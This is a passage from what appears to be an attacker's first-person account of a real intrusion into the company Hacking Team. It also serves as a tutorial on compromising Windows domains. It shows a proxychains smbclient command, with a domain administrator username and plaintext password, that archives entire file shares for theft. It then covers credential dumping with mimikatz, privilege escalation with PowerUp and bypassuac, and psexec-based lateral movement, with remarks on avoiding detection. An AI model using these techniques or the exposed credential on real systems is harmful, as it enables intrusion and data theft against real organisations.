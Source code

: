 with New-MailboxExportRequest to download the new emails (in this case all
mail since June 5). The problem is it says the date is invalid if you
try a day larger than 12 (I imagine because in the US the month comes first
and you can't have a month above 12). It seems like Microsoft's engineers only
test their software with their own locale.

[1] http://www.stevieg.org/2010/07/using-the-exchange-2010-sp1-mailbox-export-features-for-mass-exports-to-pst/


--[ 12 - Downloading Files ]----------------------------------------------------

Now that I'd gotten Domain Admin, I started to download file shares using my
proxy and the -Tc option of smbclient, for example:

proxychains smbclient '//192.168.1.230/FAE DiskStation' \
    -U 'HACKINGTEAM/Administrator%uu8dd8ndd12!' -Tc FAE_DiskStation.tar '*'

I downloaded the Amministrazione, FAE DiskStation, and FileServer folders in
the torrent like that.


--[ 13 - Introduction to hacking windows domains ]------------------------------

Before continuing with the story of the "weones culiaos" (Hacking Team), I
should give some general knowledge for hacking windows networks.


----[ 13.1 - Lateral Movement ]-------------------------------------------------

I'll give a brief review of the different techniques for spreading withing a
windows network. The techniques for remote execution require the password or
hash of a local admin on the target. By far, the most common way of obtaining
those credentials is using mimikatz [1], especially sekurlsa::logonpasswords
and sekurlsa::msv, on the computers where you already have admin access. The
techniques for "in place" movement also require administrative privileges
(except for runas). The most important tools for privilege escalation are
PowerUp [2], and bypassuac [3].

[1] https://adsecurity.org/?page_id=1821
[2] https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
[3] https://github.com/PowerShellEmpire/Empire/blob/master/data/module_source/privesc/Invoke-BypassUAC.ps1


Remote Movement:

1) psexec

   The tried and true method for lateral movement on windows. You can use
   psexec [1], winexe [2], metasploit's psexec_psh [3], Powershell Empire's
   invoke_psexec [4], or the builtin windows command "sc" [5]. For the
   metasploit module, powershell empire, and pth-winexe [6], you just need the
   hash, not the password. It's the most universal method (it works on any
   windows computer with port 445 open), but it's also the least stealthy.
   Event type 7045 "Service Control Manager" will appear in the event logs. In
   my experience, no one has ever noticed during a hack, but it helps the
   investigators piece together what the hacker did afterwards.
